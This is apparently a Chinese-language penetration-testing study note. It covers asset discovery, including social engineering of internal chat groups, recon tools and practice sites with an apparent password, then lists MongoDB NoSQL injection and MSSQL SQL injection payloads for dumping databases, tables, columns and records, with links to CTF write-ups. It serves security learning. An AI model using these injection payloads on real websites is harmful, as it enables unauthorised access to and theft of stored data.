 #### 2.4 资产拓展

1. 资产信息（侧面）: 以上平台信息/whois备案/github等监控
2. 第三方应用（从这些入手）: 数据库应用/各种管理平台/各种第三方应用
3. 各种服务接口（发现更多未知接口尝试）: 存储服务/支付服务/内部服务...
4. 微信公众号（发现更多未知应用）
5. 内部群内部应用等（社工或发现）: QQ或微信群/工作群/其他通讯群聊

#### 2.5 练习网站：

1. butian.net :Aa123456     
2.  xianzhi.aliyun.com

<img src="https://github.com/bit4woo/teemo/blob/master/doc/xmind.png?raw=true" alt="xmind.png" style="zoom: 80%;" />

​	第三方接口

https://crt.sh 	查询证书

https://dnsdb.io	查dns记录

htps:/ools ipip.net/cdn.php	

https://github.com/bit4woo/teemo

https://securitytrails.com/	

opengps查询ip地址



------



### 3.WEB漏洞

```
数据库：
ACESS:表、列、数据，无库与集合表，只能纯猜
	https://blog.csdn.net/u014029795/article/details/91150847   //偏移注入
MongoDB:键值对形式查询，区分大小写  NoSQLAttack
	?id=1'});return ({title:1,content:'2 	//回显
	?id=1'});return ({title:tojson(db),content:'1	//爆库
	?id=1'});return ({title:tojson(db.getCollectionNames()),content:'1	//爆表
	?id=1'});return ({title:tojson(db.Authority_confidential.find()[0]),content:'//爆字段,0就是第一个数据
SQL:
	and exists(select * from sysobjects//判断数据库类型
	and substring((select @@version),22,4)='2008'//判断数据库版本
	and 1=(select quotename(name)from master..sysdatabases FOR XML PATH(''))--//获取数据库
	and db_name()>0
	and 1=(select db_name())--//获取当前数据库
	and 1=(select quotename(name)from xx_db..sysobject where xtype='U' FOR XML PATH(''))--//获取当前数据库的表
	and 1=(select quotename(name) from xx_db..syscolumns where id=(select id from xx_db where name='xx_table') FOR XML PATH(''))--//获取表的列名
Oracle:网上找相关代码
PostgreSQL: id=-1 union all select null,null,[query]
```


   [vulhub启动]: https://vulhub.org/#/docs/run/
[Sql注入基本思路]: https://www.cnblogs.com/20175211lyz/p/11210936.html
[ SQL注入拓展]: https://www.cnblogs.com/20175211lyz/p/11204022.html
[限制条件下获取表名、无列名注入]: https://www.cnblogs.com/20175211lyz/p/12358725.html
[^CTF文件上传]: https://www.cnblogs.com/20175211lyz/p/10989689.html
[CTF XSS]: https://www.cnblogs.com/20175211lyz/p/12207467.html
[CTF SSRF(服务器端伪造请求)]: https://www.cnblogs.com/20175211lyz/p/11408583.html
[命令执行写webshell]: https://mp.weixin.qq.com/s/cSaA6HUX0_j7KzBzAAoE0Q
[CTF RCE与命令注入]: https://www.cnblogs.com/20175211lyz/p/11396392.html
[CTF 文件包含]: https://www.cnblogs.com/20175211lyz/p/10989816.html
[CTF PHP反序列化]: https://blog.csdn.net/solitudi/article/details/113588692?spm=1001.2014.3001.5502
[CTF PHP反序列化]: https://www.cnblogs.com/20175211lyz/p/11403397.html
[POP链]: https://www.cnblogs.com/20175211lyz/p/12364199.html
[CTF XXE]: cnblogs.com/20175211lyz/p/11413335.html	"里面有详细介绍"
[CTF SSTI(服务器模板注入)]: https://www.cnblogs.com/20175211lyz/p/11425368.html